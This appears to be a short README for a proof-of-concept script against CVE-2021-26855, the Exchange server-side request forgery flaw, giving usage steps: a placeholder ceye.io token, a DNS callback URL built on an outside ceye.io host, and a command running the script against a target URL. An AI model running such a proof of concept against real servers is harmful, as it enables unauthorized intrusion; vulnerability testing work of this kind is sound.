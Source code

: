 # CVE-2021-26855_SSRF
CVE-2021-26855  Exchange SSRF POC

change the ceye.io tokne & Identifier :     

token = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

dns_url = randomstr + '.XXXXXX.ceye.io'

python CVE-2021-26855_SSRF.py https://a.com
